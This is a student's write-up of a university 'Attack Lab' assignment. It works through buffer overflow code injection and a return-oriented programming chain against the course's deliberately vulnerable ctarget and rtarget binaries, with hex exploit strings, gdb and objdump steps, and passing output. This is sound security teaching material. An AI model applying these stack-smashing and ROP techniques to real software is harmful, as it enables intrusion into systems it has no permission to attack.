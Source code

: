 CSCI 3160 Attack Lab Writeup
Jacob Hebert, Target 417

# Phase 1
We completed the first phase as a class, this involved finding the correct memory address to exploit and sending a string the same size as the buffer to corrupt it. Doing this would corrupt the stack and crash the program. We achieved this by looking at the assembly dump of the file and determining not only the correct address, but also the correct size for the attack string. We did this by examining the `touch1` function and the `getbuf` function, both of which provided enough information for us to make the attack. My buffer was 0x18 or 24 bytes in size, so I filled the buffer with 24 bytes of zeros and completed the first phase.

# Phase 3
Phase 2 required us to inject some code into the program by overflowing the buffer and setting the program to a specific point in the code, into touch2. We then had to figure out the kind of injection needed. The first thing I did, after writing phase1’s section was realize that the buffer overflow was the same for all phases requiring ctarget, since that’s the only input that we have in the program. I created the level2 file and pasted the buffer overflow bytes  in, and picked a spot in `touch2` to start from, and I got a “Misfire!”. At least I was in the right spot!

Cookie: 0x23f306d5

Type string:Misfire: You called touch2(0x00406520)

I started by trying to follow the hints, which led me to find assembly code to inject the cookie right before the return statement in the `getbuf` function, then using the next part of the injection to put the code in the right address space for touch2 to take over. I realized quickly that I was getting nowhere with the assembly injection because I wasn’t able to get the program to run without immediately seg faulting. So I rethought my ideas and tried to reformat my attack file to actually follow the hints. 
The first part of phase 2 took me about 2 hours to realize I hit a dead end.

My friend Deep gave me some insight on how to actually complete this part of the lab, which was really simple in hindsight:

    1. Find the return address of getbuf
    2. Find the return address of touch2
    3. Inject code in the buffer to alter the value of %rdi

The cookie was the value to inject, and a movq asm command made the most sense, so
    `movq $0x23f306d5, %rdi`

I needed to translate this from text to the binary form, so running
    `as ctarget_l2_inject.s -o ctarget_l2_inject.o`
generated the needed output, which when objdumped gave:
    `48 c7 c7 d5 06 f3 23`
    `c3` is retq in asm, so that would be at the 8th byte.


    (gdb) until *0x401daa
    gdb) x/s $rsp
    (Address of register) 0x5551fa10:

Injection script:

> ```C
>/* Injection string */
>/* First 8 bytes are movq to rsi, rest to overflow getbuf */
>
>48 c7 c7 d5 06 f3 23 c3
>00 00 00 00 00 00 00 00
>00 00 00 00 00 00 00 00
>
>
>/* 0x5551fa10 = ret addr for getbuf */
>10 fa 51 55 00 00 00 00
>
>
>
>/* Address of touch2 */
>f4 1d 40 00 00 00 00 00
>```

At first the injection caused a seg fault, but it was likely caused by comments, because shortly after, I ran it again and it passed
    
    ```bash
        ./hex2raw < ctarget.lv2 | ./ctarget
        Cookie: 0x23f306d5
        Type string:Touch2!: You called touch2(0x23f306d5)
        Valid solution for level 2 with target ctarget
        PASS
    ```


# Phase 3

I needed to pass the cookie as a string -- so I need to translate the hex cookie to a set of ascii characters


1. We need to inject the cookie into the return address of touch3

Need to use a movq instruction to move the location of the cookie to the register at the time needed
Add 0x28 to account for buffer and size of rsp and touch3. 0x18 for the buffer, 0x8 for rsp, and 0x8 for touch3.

The new memory address is: 0x5551fa10 + 0x28 = **0x5551fa38**. This gets injected in the first line of the buffer overflow.


2. add the return address for getbuf
    `10 fa 51 55 00 00 00 00`

3. ret address for touch3
    `11 1f 40 00 00 00 00 00`

4. Translate hex to ASCII
    `32 33 66 33 30 36 64 35 00` *plus an extra byte of zeroes*

    Script:

>    ```c
>   /* movq cookie location -> rdi and retq */
>   /* 10 fa 51 55 */
>   /* 0x5551fa10 + 0x28 = 0x5551fa38 */
>
>
>   48 c7 c7 38 fa 51 55 c3
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>
>   /* retaddr of getbuf */
>   10 fa 51 55 00 00 00 00
>
>   /* retaddr of touch3 */
>   /* 0x401f11          */
>
>   11 1f 40 00 00 00 00 00
>
>   /* Hex translation of cookie */
>   32 33 66 33 30 36 64 35 00

    ```

```bash
    Cookie: 0x23f306d5
    Type string:Touch3!: You called touch3("23f306d5")
    Valid solution for level 3 with target ctarget
    PASS
    ```
With Deep's help, this took me about half an hour to complete.


# Phase 4

ROP is hard...
The first thing I did was find the gadget farm in the address space.
```bash
    objdump -d rtarget | sed -n '/start_farm/,/end_farm/p' >> farm.dump
```
This finds the entire codespace from the start to the end of the farm

Using the farm, I made some grep statements to find the patterns that I needed for execution

    /* popq %rdi , 5f */
    /* popq %rax, 58 -> setval_269 */
    /* c4 = c7, 2 more places is 58 */

I started with these, I grepped to a spot that would have 5f or 58, for me, setval_269 had the value I needed,
it was located at c4, but 2 bytes into the address, so I had to add 2 to my inject, starting at c6.
That popped %rax from the stack.

I used that to put the cookie on the stack.

    /* movq rdi rax */
    /* cat farm.dump | grep -E "48 89 .. c3"  */
I didn't know the exact 3rd byte to look for, so I used extended regex to find it somewhere in the farm, which resulted in:
    ```bash
         401fcf:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax
    ```
The start of the string I wanted was one byte in, so I added 1 to the address, making my address: `d0 1f 40 00 00 00 00 00`

The last thing was to inject the return address of touch2, which was already in ctarget.lv2, so I just copy/pasted that.

ROP Attack:

>   /* Cookie: 0x23f306d5 */
>
>   /* Fill buffer to 24 bytes */
>
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>   /* popq %rdi , 5f */
>   /* popq %rax, 58 -> setval_269 */
>   /* c4 = c7, 2 more places is 58 */
>   c6 1f 40 00 00 00 00 00
>
>   /* cookie */
>   d5 06 f3 23 00 00 00 00
>
>   /* movq rdi rax */
>   /* cat farm.dump | grep -E "48 89 .. c3"  */
>
>   /* 401fcf:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax */
>
>   d0 1f 40 00 00 00 00 00
>
>   /* Ret addr of touch2 */
>
>   f4 1d 40 00 00 00 00 00



```bash
    Cookie: 0x23f306d5
    Type string:Touch2!: You called touch2(0x23f306d5)
    Valid solution for level 2 with target rtarget
    PASS


    ```


Deep helped me significantly with this lab. Without him, I would not have been able to get to phase 4.
